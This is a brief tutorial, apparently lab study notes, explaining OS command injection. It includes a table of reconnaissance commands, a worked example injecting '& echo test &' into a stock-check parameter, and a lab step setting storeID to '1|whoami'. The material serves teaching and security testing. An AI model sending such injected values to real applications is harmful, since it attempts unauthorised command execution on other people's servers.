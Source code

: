 # OS Command Injection

Also known as shell injection allows an attacker to execute OS commands on the server that is running an application, and typically fully compromise the application and its data. Often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure and exploit trust relationships to pivot the attack to other systems within the organisations.

## Userful Commands
```
Purpose - Linux/Windows
Name of user - whoami/whoami
OS - uname -a/ver
Network Config - ifconfig/ipconfig /all
Network Connection - netstat -an/netstat -an
Running Processes ps -ef/tasklist
``````

For example a URL to check stock may be ```https://webiste.com/stockStatus?ID=381&stockID=29``` would be a command line of ```stock report.pl 381 29``` so if you were to input the following ```& echo test &``` them command line would execute ```stockreport.pl & echo test & 29``` so the output would to the user would be;
```
Error - product ID was not provided
test
29:command not found
```

**LAB**

Modify storeID parameter to ```1|whoami```